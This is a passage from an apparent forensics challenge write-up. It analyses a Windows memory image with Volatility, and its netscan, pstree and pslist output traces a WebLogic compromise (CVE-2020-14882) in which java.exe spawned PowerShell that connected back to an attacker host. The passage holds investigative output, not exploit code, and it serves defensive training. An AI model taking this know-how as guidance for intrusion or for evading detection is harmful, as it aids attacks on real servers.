0xb68cb28aad30  UDPv4   0.0.0.0 4500    *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb29366a0  UDPv4   0.0.0.0 123     *       0               400     svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb29366a0  UDPv6   ::      123     *       0               400     svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb2a89010  TCPv4   127.0.0.1       49678   127.0.0.1       49677   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2b50010  TCPv4   127.0.0.1       49675   127.0.0.1       49676   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2b74860  UDPv6   fe80::5caf:aaae:b035:834d       1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb2c58a50  TCPv6   7f00:1::98b0:6cb1:8cb6:ffff     7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xb68cb2cc8580  TCPv4   127.0.0.1       49680   127.0.0.1       49679   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2ccc010  TCPv4   127.0.0.1       49679   127.0.0.1       49680   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2cffb20  TCPv6   c0a8:9083::c8e0:70b2:8cb6:ffff  5556    ::      0       LISTENING       4456    java.exe        2021-08-06 15:30:03.000000 
0xb68cb2cffc70  TCPv6   7f00:1::98b0:6cb1:8cb6:ffff     1527    ::      0       LISTENING       4772    java.exe        2021-08-06 15:30:07.000000 
0xb68cb2e135c0  TCPv4   127.0.0.1       49686   127.0.0.1       49687   ESTABLISHED     4752    java.exe        2021-08-06 15:30:39.000000 
0xb68cb2e57ec0  TCPv6   c0a8:9083::c8e0:70b2:8cb6:ffff  7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xb68cb2f2eb70  TCPv4   192.168.144.131 49674   51.103.5.186    443     ESTABLISHED     2676    explorer.exe    2021-08-06 15:29:22.000000 
0xb68cb31c6380  TCPv4   127.0.0.1       49682   127.0.0.1       49681   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb31c7010  TCPv4   127.0.0.1       49681   127.0.0.1       49682   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb31e5010  TCPv4   127.0.0.1       49687   127.0.0.1       49686   ESTABLISHED     4752    java.exe        2021-08-06 15:30:39.000000 
0xb68cb31f0d00  TCPv4   127.0.0.1       49677   127.0.0.1       49678   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb3236b90  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb3236b90  UDPv6   ::      0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb3237830  TCPv4   192.168.144.131 49869   192.168.144.129 1339    CLOSE_WAIT      4344    powershell.exe  2021-08-06 15:51:40.000000 
0xb68cb3266780  TCPv6   2001:0:2851:782c:d2:133b:3f57:6f7c      7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xb68cb32ba4f0  TCPv6   ::1     7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:01.000000 
0xb68cb335c260  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb33b4d00  TCPv4   192.168.144.131 80      192.168.144.1   27919   CLOSED  508     svchost.exe     2021-08-06 15:51:39.000000 
0xb68cb346d370  TCPv4   192.168.144.131 49903   192.168.144.129 1337    CLOSED  1488    svchost.exe     2021-08-06 16:17:52.000000 
0xb68cb34faa40  TCPv4   192.168.144.131 49901   192.168.144.129 1337    CLOSED  1488    svchost.exe     2021-08-06 16:15:52.000000 
0xb68cb350dab0  TCPv4   192.168.144.131 49907   192.168.144.129 1337    CLOSE_WAIT      1488    svchost.exe     2021-08-06 16:21:53.000000 
0xb68cb3578ec0  UDPv4   0.0.0.0 5355    *       0               1100    svchost.exe     2021-08-06 16:11:24.000000 
0xb68cb380eec0  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb380eec0  UDPv6   ::      0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb3832260  UDPv4   0.0.0.0 5355    *       0               1100    svchost.exe     2021-08-06 16:11:24.000000 
0xb68cb3832260  UDPv6   ::      5355    *       0               1100    svchost.exe     2021-08-06 16:11:24.000000 
0xb68cb385e2e0  TCPv4   192.168.144.131 49905   192.168.144.129 1337    CLOSED  1488    svchost.exe     2021-08-06 16:19:53.000000 
0xe000001a9300  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xe000001a9300  TCPv6   ::      49668   ::      0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xf8024bdf2ec0  TCPv6   c0a8:9083::c8e0:70b2:8cb6:ffff  7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xf8024be475c0  TCPv4   127.0.0.1       49686   127.0.0.1       49687   ESTABLISHED     4752    java.exe        2021-08-06 15:30:39.000000 
0xf8024bf34ec0  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000
```

## Q#13 The attacker gain access through WebLogic Server. What is the PID of the process responsible for the initial exploit?

From pstree, we can see that java.exe spawns the process powershell.exe, so, java.exe is the process responsible for the initial exploit (PID 4752:

```bash
~/tools/volatility3/vol.py -f memory.mem -profile=Win10x64_14393 windows.pstree.PsTree
Volatility 3 Framework 2.0.0
Progress:  100.00               PDB scanning finished                        
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime

4       0       System  0xb68cb04ac040  113     -       N/A     False   2021-08-06 15:26:02.000000      N/A
* 292   4       smss.exe        0xb68cb168f800  2       -       N/A     False   2021-08-06 15:26:02.000000      N/A
** 504  292     smss.exe        0xb68cb1ccf080  0       -       1       False   2021-08-06 15:26:11.000000      2021-08-06 15:26:11.000000 
*** 512 504     csrss.exe       0xb68cb17d9540  12      -       1       False   2021-08-06 15:26:11.000000      N/A
*** 560 504     winlogon.exe    0xb68cb1ea5080  2       -       1       False   2021-08-06 15:26:11.000000      N/A
**** 912        560     dwm.exe 0xb68cb1ff5080  15      -       1       False   2021-08-06 15:26:18.000000      N/A
**** 2824       560     fontdrvhost.ex  0xb68cb1ff3080  5       -       1       False   2021-08-06 15:35:54.000000      N/A
**** 1140       560     userinit.exe    0xb68cb2b73280  0       -       1       False   2021-08-06 15:29:16.000000      2021-08-06 15:29:40.000000 
***** 2676      1140    explorer.exe    0xb68cb2d36800  50      -       1       False   2021-08-06 15:29:16.000000      N/A
****** 2688     2676    mmc.exe 0xb68cb382a5c0  14      -       1       False   2021-08-06 15:56:56.000000      N/A
****** 4356     2676    cmd.exe 0xb68cb317d340  1       -       1       False   2021-08-06 15:29:59.000000      N/A
******* 4456    4356    java.exe        0xb68cb2f21800  16      -       1       False   2021-08-06 15:30:00.000000      N/A
******* 4364    4356    conhost.exe     0xb68cb277f800  3       -       1       False   2021-08-06 15:29:59.000000      N/A
****** 2568     2676    RamCapture64.e  0xb68cb3256580  4       -       1       False   2021-08-06 16:13:20.000000      N/A
******* 3524    2568    conhost.exe     0xb68cb3871800  3       -       1       False   2021-08-06 16:13:20.000000      N/A
****** 4556     2676    cmd.exe 0xb68cb2cfb600  1       -       1       False   2021-08-06 15:30:04.000000      N/A
******* 4736    4556    cmd.exe 0xb68cb2333080  1       -       1       False   2021-08-06 15:30:05.000000      N/A
******** 4772   4736    java.exe        0xb68cb2344080  18      -       1       False   2021-08-06 15:30:05.000000      N/A
******* 4564    4556    conhost.exe     0xb68cb2a1f480  3       -       1       False   2021-08-06 15:30:04.000000      N/A
******* 4752    4556    java.exe        0xb68cb23e4080  44      -       1       False   2021-08-06 15:30:05.000000      N/A
******** 3520   4752    powershell.exe  0xb68cb3045080  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 3684   4752    powershell.exe  0xb68cb2df3080  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 4200   4752    powershell.exe  0xb68cb356f080  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 4264   4752    powershell.exe  0xb68cb22fe080  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 776    4752    powershell.exe  0xb68cb34c2800  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 2712   4752    powershell.exe  0xb68cb322f800  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:45.000000 
******** 1616   4752    powershell.exe  0xb68cb34ca800  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 2132   4752    powershell.exe  0xb68cb33c9080  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 1012   4752    powershell.exe  0xb68cb32fa800  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:44.000000 
******** 4344   4752    powershell.exe  0xb68cb32c6800  15      -       1       False   2021-08-06 15:51:40.000000      N/A
********* 1488  4344    svchost.exe     0xb68cb24b5080  7       -       1       False   2021-08-06 16:06:50.000000      N/A
********* 4636  4344    conhost.exe     0xb68cb2444680  1       -       1       False   2021-08-06 15:51:40.000000      N/A
******** 3676   4752    powershell.exe  0xb68cb1f64080  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:45.000000 
******** 2200   4752    powershell.exe  0xb68cb34b6800  0       -       1       False   2021-08-06 15:51:40.000000      2021-08-06 15:51:45.000000 
****** 3732     2676    vmtoolsd.exe    0xb68cb2b6d800  8       -       1       False   2021-08-06 15:29:32.000000      N/A
2552    3488    ServerManager.  0xb68cb2f17800  12      -       1       False   2021-08-06 15:29:22.000000      N/A
4172    4132    jusched.exe     0xb68cb3039800  1       -       1       True    2021-08-06 15:29:34.000000      N/A
* 1392  4172    jucheck.exe     0xb68cb3476080  4       -       1       True    2021-08-06 15:34:34.000000      N/A
4596    800     notepad.exe     0xb68cb3309080  3       -       1       False   2021-08-06 16:12:52.000000      N/A
```

## Q#14 what is the PID of the next entry to the process responsible for the initial exploit? (Hint: ActiveProcessLinks list)

As Hint said about ActiveProcessLinks, we need to use pslist and vol2. After that, check the process after the process java.exe with PID 4752. It's `4772`.

```bash
~/tools/volatility/vol.py -f memory.mem --profile=Win10x64_14393 pslist              
Volatility Foundation Volatility Framework 2.6.1
Offset(V)          Name                    PID   PPID   Thds     Hnds   Sess  Wow64 Start                          Exit                          
------------------ -------------------- ------ ------ ------ -------- ------ ------ ------------------------------ ------------------------------
0xffffb68cb04ac040 System                    4      0    113        0 ------      0 2021-08-06 15:26:02 UTC+0000                                 
0xffffb68cb168f800 smss.exe                292      4      2        0 ------      0 2021-08-06 15:26:02 UTC+0000                                 
0xffffb68cb1cb3080 csrss.exe               412    400     11        0      0      0 2021-08-06 15:26:10 UTC+0000                                 
0xffffb68cb1ccf080 smss.exe                504    292      0 --------      1      0 2021-08-06 15:26:11 UTC+0000   2021-08-06 15:26:11 UTC+0000  
0xffffb68cb17d9540 csrss.exe               512    504     12        0      1      0 2021-08-06 15:26:11 UTC+0000                                 
0xffffb68cb1ea5080 winlogon.exe            560    504      2        0      1      0 2021-08-06 15:26:11 UTC+0000                                 
0xffffb68cb1ea3800 wininit.exe             568    400      1        0      0      0 2021-08-06 15:26:11 UTC+0000                                 
0xffffb68cb1efd080 services.exe            652    568      3        0      0      0 2021-08-06 15:26:13 UTC+0000                                 
0xffffb68cb1f2a7c0 lsass.exe               664    568      8        0      0      0 2021-08-06 15:26:13 UTC+0000                                 
0xffffb68cb1e2d800 svchost.exe             764    652     14        0      0      0 2021-08-06 15:26:16 UTC+0000                                 
0xffffb68cb1e29800 svchost.exe             824    652      8        0      0      0 2021-08-06 15:26:17 UTC+0000                                 
0xffffb68cb1ff5080 dwm.exe                 912    560     15        0      1      0 2021-08-06 15:26:18 UTC+0000                                 
0xffffb68cb1fe2800 svchost.exe             972    652     17        0      0      0 2021-08-06 15:26:19 UTC+0000                                 
0xffffb68cb1fde800 svchost.exe             996    652     14        0      0      0 2021-08-06 15:26:19 UTC+0000                                 
0xffffb68cb2653500 svchost.exe             508    652     40        0      0      0 2021-08-06 15:26:21 UTC+0000                                 
0xffffb68cb1fd6800 svchost.exe             400    652     17        0      0      0 2021-08-06 15:26:21 UTC+0000                                 
0xffffb68cb1fd4800 svchost.exe             944    652     18        0      0      0 2021-08-06 15:26:22 UTC+0000                                 
0xffffb68cb2675800 svchost.exe            1092    652      6        0      0      0 2021-08-06 15:26:23 UTC+0000                                 
0xffffb68cb1fd03c0 svchost.exe            1100    652     23        0      0      0 2021-08-06 15:26:23 UTC+0000                                 
0xffffb68cb272b800 spoolsv.exe            1592    652      9        0      0      0 2021-08-06 15:26:31 UTC+0000                                 
0xffffb68cb28a6800 svchost.exe            1668    652     11        0      0      0 2021-08-06 15:26:31 UTC+0000                                 
0xffffb68cb28c0800 svchost.exe            1732    652      7        0      0      0 2021-08-06 15:26:32 UTC+0000                                 
0xffffb68cb28bc800 svchost.exe            1764    652      4        0      0      0 2021-08-06 15:26:32 UTC+0000                                 
0xffffb68cb28ba800 wlms.exe               1852    652      2        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b8800 MsMpEng.exe            1876    652      5        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b6800 vm3dservice.ex         1896    652      2        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b4800 vmtoolsd.exe           1904    652     11        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b2800 VGAuthService.         1912    652      2        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb2795800 vm3dservice.ex          892   1896      2        0      1      0 2021-08-06 15:26:38 UTC+0000                                 
0xffffb68cb2905080 svchost.exe            2136    652      4        0      0      0 2021-08-06 15:26:39 UTC+0000                                 
0xffffb68cb0799800 dllhost.exe            2812    652     10        0      0      0 2021-08-06 15:26:56 UTC+0000                                 
0xffffb68cb23ab5c0 msdtc.exe              2912    652      9        0      0      0 2021-08-06 15:26:59 UTC+0000                                 
0xffffb68cb23c2340 WmiPrvSE.exe           3004    764     15        0      0      0 2021-08-06 15:27:01 UTC+0000                                 
0xffffb68cb1e9c640 WmiPrvSE.exe           2560    764      5        0      0      0 2021-08-06 15:27:12 UTC+0000                                 
0xffffb68cb2abe800 svchost.exe            3176    652      8        0      0      0 2021-08-06 15:27:19 UTC+0000                                 
0xffffb68cb0496780 RuntimeBroker.         4064    764     11        0      1      0 2021-08-06 15:29:12 UTC+0000                                 
0xffffb68cb2b79080 sihost.exe             2196    508      8        0      1      0 2021-08-06 15:29:13 UTC+0000                                 
0xffffb68cb28f2480 svchost.exe            2756    652      6        0      1      0 2021-08-06 15:29:13 UTC+0000                                 
0xffffb68cb2d34800 taskhostw.exe          2424    508     13        0      1      0 2021-08-06 15:29:13 UTC+0000                                 
0xffffb68cb2b73280 userinit.exe           1140    560      0 --------      1      0 2021-08-06 15:29:16 UTC+0000   2021-08-06 15:29:40 UTC+0000  
0xffffb68cb2d36800 explorer.exe           2676   1140     50        0      1      0 2021-08-06 15:29:16 UTC+0000                                 
0xffffb68cb2d30800 ShellExperienc         3496    764     33        0      1      0 2021-08-06 15:29:21 UTC+0000                                 
0xffffb68cb2d2e800 SearchUI.exe           3408    764     43        0      1      0 2021-08-06 15:29:21 UTC+0000                                 
0xffffb68cb2f17800 ServerManager.         2552   3488     12        0      1      0 2021-08-06 15:29:22 UTC+0000                                 
0xffffb68cb2b6d800 vmtoolsd.exe           3732   2676      8        0      1      0 2021-08-06 15:29:32 UTC+0000                                 
0xffffb68cb3039800 jusched.exe            4172   4132      1        0      1      1 2021-08-06 15:29:34 UTC+0000                                 
0xffffb68cb317d340 cmd.exe                4356   2676      1        0      1      0 2021-08-06 15:29:59 UTC+0000                                 
0xffffb68cb277f800 conhost.exe            4364   4356      3        0      1      0 2021-08-06 15:29:59 UTC+0000                                 
0xffffb68cb2f21800 java.exe               4456   4356     16        0      1      0 2021-08-06 15:30:00 UTC+0000                                 
0xffffb68cb2cfb600 cmd.exe                4556   2676      1        0      1      0 2021-08-06 15:30:04 UTC+0000                                 
0xffffb68cb2a1f480 conhost.exe            4564   4556      3        0      1      0 2021-08-06 15:30:04 UTC+0000                                 
0xffffb68cb2333080 cmd.exe                4736   4556      1        0      1      0 2021-08-06 15:30:05 UTC+0000                                 
0xffffb68cb23e4080 java.exe               4752   4556     44        0      1      0 2021-08-06 15:30:05 UTC+0000                                 
0xffffb68cb2344080 java.exe               4772   4736     18        0      1      0 2021-08-06 15:30:05 UTC+0000                                 
0xffffb68cb3476080 jucheck.exe            1392   4172      4        0      1      1 2021-08-06 15:34:34 UTC+0000                                 
0xffffb68cb1ff3080 fontdrvhost.ex         2824    560      5        0      1      0 2021-08-06 15:35:54 UTC+0000                                 
0xffffb68cb2451380 armsvc.exe              840    652      2        0      0      1 2021-08-06 15:41:38 UTC+0000                                 
0xffffb68cb32c6800 powershell.exe         4344   4752     15        0      1      0 2021-08-06 15:51:40 UTC+0000                                 
0xffffb68cb2444680 conhost.exe            4636   4344      1        0      1      0 2021-08-06 15:51:40 UTC+0000                                 
0xffffb68cb356f080 powershell.exe         4200   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb322f800 powershell.exe         2712   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:45 UTC+0000  
0xffffb68cb33c9080 powershell.exe         2132   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb22fe080 powershell.exe         4264   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb2df3080 powershell.exe         3684   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb1f64080 powershell.exe         3676   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:45 UTC+0000  
0xffffb68cb3045080 powershell.exe         3520   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb32fa800 powershell.exe         1012   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb34b6800 powershell.exe         2200   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:45 UTC+0000  
0xffffb68cb34c2800 powershell.exe          776   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb34ca800 powershell.exe         1616   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb382a5c0 mmc.exe                2688   2676     14        0      1      0 2021-08-06 15:56:56 UTC+0000                                 
0xffffb68cb24b5080 svchost.exe            1488   4344      7        0      1      0 2021-08-06 16:06:50 UTC+0000                                 
0xffffb68cb3309080 notepad.exe            4596    800      3        0      1      0 2021-08-06 16:12:52 UTC+0000                                 
0xffffb68cb3256580 RamCapture64.e         2568   2676      4        0      1      0 2021-08-06 16:13:20 UTC+0000                                 
0xffffb68cb3871800 conhost.exe            3524   2568      3        0      1      0 2021-08-06 16:13:20 UTC+0000
```

## Q#15 How many threads does the previous process have?

Here, it is a bit hard to understand what process it asks. So, I just tried the number of threads 18 (PID 4772), which is wrong, and then tried 44 (PID 4752), which is correct.

## Q#16 The attacker gain access to the system through the webserver. What is the CVE number of the vulnerability exploited?

Just checked what CVEs are inside suricata.rules and found `ET WEB_SPECIFIC_APPS Possible Oracle WebLogic RCE Inbound M6 (CVE-2020-14882)`.

## Q#17 The attacker used the vulnerability he found in the webserver to execute a reverse shell command to his server. Provide the IP and port of the attacker server? Format: IP:port

```bash
~/tools/volatility3/vol.py -f memory.mem -profile=Win10x64_14393 windows.netscan.NetScan
Volatility 3 Framework 2.0.0
Progress:  100.00               PDB scanning finished                        
Offset  Proto   LocalAddr       LocalPort       ForeignAddr     ForeignPort     State   PID     Owner   Created

0xb68cb05a9300  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb05a9300  TCPv6   ::      49668   ::      0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb0751010  TCPv4   192.168.144.131 80      0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:45.000000 
0xb68cb0766d40  UDPv6   ::1     1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb079bbd0  UDPv6   ::1     60614   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb0a9fec0  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb0f05350  UDPv4   192.168.144.131 138     *       0               4       System  2021-08-06 15:26:24.000000 
0xb68cb1254ec0  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       824     svchost.exe     2021-08-06 15:26:17.000000 
0xb68cb1cd12f0  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       824     svchost.exe     2021-08-06 15:26:17.000000 
0xb68cb1cd12f0  TCPv6   ::      135     ::      0       LISTENING       824     svchost.exe     2021-08-06 15:26:17.000000 
0xb68cb1e278a0  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       568     wininit.exe     2021-08-06 15:26:17.000000 
0xb68cb1e278a0  TCPv6   ::      49664   ::      0       LISTENING       568     wininit.exe     2021-08-06 15:26:17.000000 
0xb68cb1ec97a0  TCPv4   192.168.144.131 139     0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:24.000000 
0xb68cb1ed8ec0  UDPv4   0.0.0.0 0       *       0               2136    svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb1ed8ec0  UDPv6   ::      0       *       0               2136    svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb1f099e0  UDPv4   192.168.144.131 137     *       0               4       System  2021-08-06 15:26:24.000000 
0xb68cb1f6e740  TCPv4   127.0.0.1       49676   127.0.0.1       49675   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb1fc0dc0  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       568     wininit.exe     2021-08-06 15:26:17.000000 
0xb68cb22479f0  UDPv4   192.168.144.131 60615   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb22a9430  UDPv4   127.0.0.1       60616   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb22a9ec0  UDPv6   fe80::5caf:aaae:b035:834d       60613   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb230b010  UDPv4   0.0.0.0 5353    *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb2315dd0  UDPv4   127.0.0.1       1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb231f480  UDPv4   192.168.144.131 1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb2344cf0  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       652     services.exe    2021-08-06 15:26:56.000000 
0xb68cb2344cf0  TCPv6   ::      49669   ::      0       LISTENING       652     services.exe    2021-08-06 15:26:56.000000 
0xb68cb2352330  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       652     services.exe    2021-08-06 15:26:56.000000 
0xb68cb23b3aa0  UDPv4   0.0.0.0 5050    *       0               400     svchost.exe     2021-08-06 15:28:56.000000 
0xb68cb2404540  UDPv4   0.0.0.0 0       *       0               400     svchost.exe     2021-08-06 15:26:34.000000 
0xb68cb2405ec0  UDPv4   0.0.0.0 0       *       0               400     svchost.exe     2021-08-06 15:26:34.000000 
0xb68cb2405ec0  UDPv6   ::      0       *       0               400     svchost.exe     2021-08-06 15:26:34.000000 
0xb68cb2421b30  UDPv4   0.0.0.0 123     *       0               400     svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb24444e0  UDPv4   0.0.0.0 0       *       0               508     svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb24444e0  UDPv6   ::      0       *       0               508     svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb246dd50  UDPv4   0.0.0.0 0       *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb246dd50  UDPv6   ::      0       *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb24aeec0  TCPv4   0.0.0.0 445     0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:38.000000 
0xb68cb24aeec0  TCPv6   ::      445     ::      0       LISTENING       4       System  2021-08-06 15:26:38.000000 
0xb68cb24b8540  UDPv4   0.0.0.0 0       *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb24ba010  UDPv4   0.0.0.0 500     *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb24e88f0  TCPv4   0.0.0.0 47001   0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb24e88f0  TCPv6   ::      47001   ::      0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb24ff8f0  TCPv4   0.0.0.0 5985    0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb24ff8f0  TCPv6   ::      5985    ::      0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb26862d0  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb268ca30  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       996     svchost.exe     2021-08-06 15:26:22.000000 
0xb68cb268ca30  TCPv6   ::      49665   ::      0       LISTENING       996     svchost.exe     2021-08-06 15:26:22.000000 
0xb68cb268e9c0  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       996     svchost.exe     2021-08-06 15:26:22.000000 
0xb68cb26cdcf0  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       664     lsass.exe       2021-08-06 15:26:26.000000 
0xb68cb26cdcf0  TCPv6   ::      49666   ::      0       LISTENING       664     lsass.exe       2021-08-06 15:26:26.000000 
0xb68cb26dbad0  UDPv4   0.0.0.0 5353    *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb26dbad0  UDPv6   ::      5353    *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb271e340  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       664     lsass.exe       2021-08-06 15:26:26.000000 
0xb68cb27f2d80  UDPv4   0.0.0.0 0       *       0               2136    svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb28323e0  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:31.000000 
0xb68cb28323e0  TCPv6   ::      49667   ::      0       LISTENING       508     svchost.exe     2021-08-06 15:26:31.000000 
0xb68cb2867460  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:31.000000 
0xb68cb28a88a0  UDPv4   0.0.0.0 4500    *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28a88a0  UDPv6   ::      4500    *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28a8ec0  UDPv4   0.0.0.0 500     *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28a8ec0  UDPv6   ::      500     *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28aad30  UDPv4   0.0.0.0 4500    *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb29366a0  UDPv4   0.0.0.0 123     *       0               400     svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb29366a0  UDPv6   ::      123     *       0               400     svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb2a89010  TCPv4   127.0.0.1       49678   127.0.0.1       49677   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2b50010  TCPv4   127.0.0.1       49675   127.0.0.1       49676   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2b74860  UDPv6   fe80::5caf:aaae:b035:834d       1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb2c58a50  TCPv6   7f00:1::98b0:6cb1:8cb6:ffff     7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xb68cb2cc8580  TCPv4   127.0.0.1       49680   127.0.0.1       49679   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2ccc010  TCPv4   127.0.0.1       49679   127.0.0.1       49680   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb2cffb20  TCPv6   c0a8:9083::c8e0:70b2:8cb6:ffff  5556    ::      0       LISTENING       4456    java.exe        2021-08-06 15:30:03.000000 
0xb68cb2cffc70  TCPv6   7f00:1::98b0:6cb1:8cb6:ffff     1527    ::      0       LISTENING       4772    java.exe        2021-08-06 15:30:07.000000 
0xb68cb2e135c0  TCPv4   127.0.0.1       49686   127.0.0.1       49687   ESTABLISHED     4752    java.exe        2021-08-06 15:30:39.000000 
